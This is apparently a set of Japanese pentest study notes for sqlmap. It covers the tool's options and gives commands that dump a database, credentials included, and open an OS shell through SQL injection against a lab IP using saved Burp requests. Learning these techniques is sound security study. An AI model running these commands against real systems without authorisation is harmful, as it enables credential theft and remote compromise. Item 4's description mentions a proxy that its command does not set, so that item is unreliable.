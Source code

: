 # sqlmap
[公式ページ](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

## 概要
sqlmapはKaliにデフォルトでインストールされている。  
SQLiのプロセスはsqlmapを使って様々なDBエンジンに対するSQLiの脆弱性を特定・悪用ができる。  


## コマンド集

-u => ターゲットを指定
-p => テストするパラメータを指定
--dump => ユーザ認証情報を含めてDB全体をダンプする

簡単なSQLiテストのコマンド実行。  
userパラメータの後ろにダミーで1を指定しており、Time-based SQLiを行う。
```
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump
```

> [!NOTE]  
> sqlmapは大量のトラフィックが発生するため、ステルス性はゼロに等しい。ステルス性を重視する場合は使用しない方が良い。


-r => Burp等で取得したPOSTリクエストをtxt形式で保存しておき、それを引数としてとる  
-p => パラメータ。POSTの中にある脆弱なパラメータを指定する。  
--os-shell => 以下の--web-rootと一緒にオプションに含め、対話的にシェルを取る  
--web-root => 書き込み可能なカスタムフォルダを指定  


ターゲットのWebアプリケーションと対話的にやり取りをするためのコマンド。Time-based SQLiだと時間がかかるという場合に便利。
```
sqlmap -r post.txt -p item --os-shell --web-root "/var/www/html/tmp"
```

3. Burpから取得しておいたget.txtのリクエストを-rで引数指定。searchパラメータに対する値をインジェクションのポイントにする。--os-shellでシェルを獲得する。  
```
sqlmap -r get.txt -p search --os-shell
```

4. sqlmapにburpのproxyを設定してデバッグ実行
```
sqlmap -r ./get.txt -p <parameter name> --os-shell
```
